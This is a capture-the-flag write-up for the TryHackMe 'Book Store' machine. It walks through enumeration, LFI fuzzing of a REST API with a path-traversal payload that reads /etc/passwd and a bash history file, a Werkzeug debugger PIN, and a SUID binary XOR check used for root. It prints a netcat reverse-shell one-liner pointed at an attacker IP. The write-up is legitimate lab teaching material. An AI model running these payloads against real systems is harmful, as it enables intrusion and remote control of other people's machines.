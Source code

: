 # Summary

Book store is a medium rated machine on TryHackMe that involves doing some basic web enumeration, fuzzing the REST API to find a parameter that is vulnerable to Local File Inclusion allowing us to retrieve the PIN for the Werkzeug console leading code execution on the system. The privesc is done by finding the `try-harder` binary which takes an integer as an input which is XOR'd with 2 other integers and spawn's a shell if the input integer matches.

# Enumeration

### NMAP

Doing a TCP NMAP scan reveals the following:

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCs5RybjdxaxapwkXwbzqZqONeX4X8rYtfTsy7wey7ZeRNsl36qQWhTrurBWWnYPO7wn2nEQ7Iz0+tmvSI3hms3eIEufCC/2FEftezKhtP1s4/qjp8UmRdaewMW2zYg+UDmn9QYmRfbBH80CLQvBwlsibEi3aLvhi/YrNCzL5yxMFQNWHIEMIry/FK1aSbMj7DEXTRnk5R3CYg3/OX1k3ssy7GlXAcvt5QyfmQQKfwpOG7UM9M8mXDCMiTGlvgx6dJkbG0XI81ho2yMlcDEZ/AsXaDPAKbH+RW5FsC5R1ft9PhRnaIkUoPwCLKl8Tp6YFSPcANVFYwTxtdUReU3QaF9
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCbhAKUo1OeBOX5j9stuJkgBBmhTJ+zWZIRZyNDaSCxG6U817W85c9TV1oWw/A0TosCyr73Mn73BiyGAxis6lNQ=
|   256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAr3xDLg8D5BpJSRh8OgBRPhvxNSPERedYUTJkjDs/jc
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 834559878C5590337027E6EB7D966AEE
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    syn-ack ttl 61 Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
```

**We have the following observations:**

- Port 80 is open
- Port 22 is open
- Port 5000 is open with an /api entry in the robots.txt file and is running a python web server?.

## Directory scanning

I used feroxbuster to find the files on the website.

[epi052/feroxbuster](https://github.com/epi052/feroxbuster)

### Port 80

```bash
200       6452 http://10.10.188.179/index.html
301        319 http://10.10.188.179/javascript
200       2940 http://10.10.188.179/books.html
301        315 http://10.10.188.179/images
```

### Port 5000

```bash
200        825 http://10.10.188.179:5000/api
200       1985 http://10.10.188.179:5000/console
```

## Web Enumeration

### Port 80

Checking the login.html file reveals the following message in the comments of the source.

```html
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
```

Looks we are most likely looking for an LFI vulnerability to read the `/home/sid/.bash_history` file which contains the PIN we can use to gain acess to the Werkzeug debugger on port 5000.

Checking the books.html file reveals the following message in the source:

```html
<!--GY4CANZUEA3TIIBXGAQDOMZAGNQSAMTGEAZGMIBXG4QDONZAG43SAMTFEA3TSIBWMYQDONJAG42CANZVEA3DEIBWGUQDEZJAGYZSANTGEA3GIIBSMYQDONZAGYYSANZUEA3DGIBWHAQDGZRAG43CAM3EEA2TIIBXGQQDGNZAGYZCAN3BEA3TQIBXGUQDOMRAGRQSAMZREA2DS=== -->
```

That after being base32 decoded gives a hex string which on being decoded... well gives a youtube link. Find out for yourself 

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base32('A-Z2-7%3D',true)From_Hex('Auto')&input=R1k0Q0FOWlVFQTNUSUlCWEdBUURPTVpBR05RU0FNVEdFQVpHTUlCWEc0UURPTlpBRzQzU0FNVEZFQTNUU0lCV01ZUURPTkpBRzQyQ0FOWlZFQTNERUlCV0dVUURFWkpBR1laU0FOVEdFQTNHSUlCU01ZUURPTlpBR1lZU0FOWlVFQTNER0lCV0hBUURHWlJBRzQzQ0FNM0VFQTJUSUlCWEdRUURHTlpBR1laQ0FOM0JFQTNUUUlCWEdVUURPTVJBR1JRU0FNWlJFQTJEUz09PSA)

😤

Admittedly I did fall for it haha.

Further checking the source reveals a the assets/js/api.js file being called which contains the following comment:

```jsx
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
```

This is very interesting as there was probably a v1 of the API most likely running on the port 5000 and has a parameter that can be fuzzed for an LFI.

### Port 5000

Checking the /console endpoint reveals a Werkzeug debugger and the PIN for that is available in the bash_history as found earlier.

Checking the /api endpoint reveals the following message:

```
**API Documentation
Since every good API has a documentation we have one as well!
The various routes this API currently provides are:**

/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```

Now we have the following information:

- There is a PIN in sid's bash history file.
- There is a parameter most in the /api/v1/resources/books endpoint which is vulnerable to LFI.

Awesome, now all that is left to do is just FUZZ.

I used ffuf for this and used the following command.

```bash
fuff -u 'http://10.10.1.152:5000/api/v1/resources/books?PARAM=../../../../../../../etc/passwd' -w /opt/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt:PARAM
```

We get a hit on the show parameter and checking the bash history gives us the PIN.

After typing in the PIN we get access to the python console from where we can spawn a shell using the following payload.

```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> 1337 >/tmp/f")
```

Now we have a shell as sid.

# Privilege Escalation

Looking at the contents of the home directory reveals a interesting `try-harder` binary with a SUID bit set.

Transferring the binary over to my kali machine and taking a look at it in ghidra reveals the following.

```c
void main(void) 
{
  long in_FS_OFFSET;
  uint user_input;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&user_input);
  local_14 = user_input ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

All this binary does is check if the integer that the user enters XOR'd with `0x1116` and `0x5db3` is equal to `0x5dcd21f4`.

The way XOR works is if you XOR `a = x ^ y ^ z` is the same as `y = a ^ x ^ z` 

We have the `a` which is `0x5dcd21f4` which is being compared to local_14, `x` which is `0x1116` , and `z` which is `0x5db3`

```python
root:book-store/ # python3
Python 3.8.6 (default, Sep 25 2020, 09:36:53) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x5dcd21f4 ^ 0x1116 ^ 0x5db3
1573743953
```

Running the binary and passing in that number gives us a shell as root.

```
sid@bookstore:~$ ./try-harder
What's The Magic Number?!
1573743953
root@bookstore:~#
```
